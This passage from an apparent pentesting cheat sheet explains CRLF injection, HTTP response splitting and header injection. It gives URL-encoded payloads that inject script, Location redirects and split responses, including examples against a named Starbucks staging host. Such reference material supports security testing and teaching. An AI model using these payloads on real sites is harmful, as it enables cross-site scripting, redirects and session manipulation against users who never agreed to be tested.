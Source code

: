 ```
1. The application sets a custom header like this: `X-Custom-Header: UserInput`
2. The application fetches the value for `UserInput` from a query parameter, say "user_input". In scenarios lacking proper input validation and encoding, an attacker can craft a payload that includes the CRLF sequence, followed by malicious content.
3. An attacker crafts a URL with a specially crafted 'user_input': `?user_input=Value%0d%0a%0d%0a<script>alert('XSS')</script>`
   - In this URL, `%0d%0a%0d%0a` is the URL-encoded form of CRLFCRLF. It tricks the server into inserting a CRLF sequence, making the server treat the subsequent part as the response body.
4. The server reflects the attacker's input in the response header, leading to an unintended response structure where the malicious script is interpreted by the browser as part of the response body.

#### An example of HTTP Response Splitting leading to Redirect

From [[https://medium.com/bugbountywriteup/bugbounty-exploiting-crlf-injection-can-lands-into-a-nice-bounty-159525a9cb62|https://medium.com/bugbountywriteup/bugbounty-exploiting-crlf-injection-can-lands-into-a-nice-bounty-159525a9cb62]]

Browser to:

```
/%0d%0aLocation:%20http://myweb.com
```
```
And the server responses with the header:

```
Location: http://myweb.com
```
```
**Other example: (from** [[https://www.acunetix.com/websitesecurity/crlf-injection/)**|**https://www.acunetix.com/websitesecurity/crlf-injection/**]]**

```
http://www.example.com/somepage.php?page=%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0aContent-Length:%2025%0d%0a%0d%0a%3Cscript%3Ealert(1)%3C/script%3E
```
```
#### In URL Path

You can send the payload **inside the URL path** to control the **response** from the server (example from [[https://hackerone.com/reports/192667)|here]]:

```
http://stagecafrstore.starbucks.com/%3f%0d%0aLocation:%0d%0aContent-Type:text/html%0d%0aX-XSS-Protection%3a0%0d%0a%0d%0a%3Cscript%3Ealert%28document.domain%29%3C/script%3E
http://stagecafrstore.starbucks.com/%3f%0D%0ALocation://x:1%0D%0AContent-Type:text/html%0D%0AX-XSS-Protection%3a0%0D%0A%0D%0A%3Cscript%3Ealert(document.domain)%3C/script%3E
```
```
Check more examples in:

[[https://github.com/EdOverflow/bugbounty-cheatsheet/blob/master/cheatsheets/crlf.md]]

### HTTP Header Injection

HTTP Header Injection, often exploited through CRLF (Carriage Return and Line Feed) injection, allows attackers to insert HTTP headers. This can undermine security mechanisms such as XSS (Cross-Site Scripting) filters or the SOP (Same-Origin Policy), potentially leading to unauthorized access to sensitive data, such as CSRF tokens, or the manipulation of user sessions through cookie planting.

#### Exploiting CORS via HTTP Header Injection

An attacker can inject HTTP headers to enable CORS (Cross-Origin Resource Sharing), bypassing the restrictions imposed by SOP. This breach allows scripts from malicious origins to interact with resources from a different origin, potentially accessing protected data.

```